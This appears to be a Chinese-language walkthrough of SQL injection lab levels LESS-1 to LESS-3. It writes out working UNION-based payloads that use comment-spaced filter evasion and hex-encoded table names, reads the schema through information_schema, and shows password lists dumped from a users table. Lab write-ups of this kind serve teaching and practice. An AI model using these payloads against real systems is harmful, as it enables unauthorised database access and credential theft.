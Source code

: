 ```html
<font size='5' color= '#99FF00'>Your Login name:2<br>Your Password:emails,referers,uagents,users</font>
```

说明表有`emails`、`referers`、`uagents`、`users`。

查users的结构：

`id=0'/**/union/**/select/**/1,2,group_concat(distinct/**/column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x7573657273/**/and/**/table_schema=database()%23`

此处进行十六进制转换，`0x7573657273`实际为`users`。

可以得到结构如下：

```html
<font size='5' color= '#99FF00'>Your Login name:2<br>Your Password:id,username,password</font>
```

随便拿一下username：

`id=0'/**/union/**/select/**/1,2,group_concat(distinct/**/password)/**/from/**/users/**/%23`

可以得到：

```html
<font size='5' color= '#99FF00'>Your Login name:2<br>Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4</font>
```

## LESS-2

常规测试如上，经测试，为整型注入，测试语句：

`id=0/**/or/**/1=1%23`

正常返回：

```html
<font size='5' color= '#99FF00'>Your Login name:Dumb<br>Your Password:Dumb</font>
```

经检测列数仍然为4，回显列仍为2，3.

直接注入：

`id=0/**/union/**/select/**/1,2,group_concat(distinct/**/password)from/**/users%23`

得到如下：

```html
<font size='5' color= '#99FF00'>Your Login name:2<br>Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4</font>
```

## LESS-3

与LESS-1稍微有点改变，使用了括号把输入括了起来，于是手动闭合即可：

`id=0')/**/union/**/select/**/1,2,group_concat(distinct/**/password)from/**/users%23`
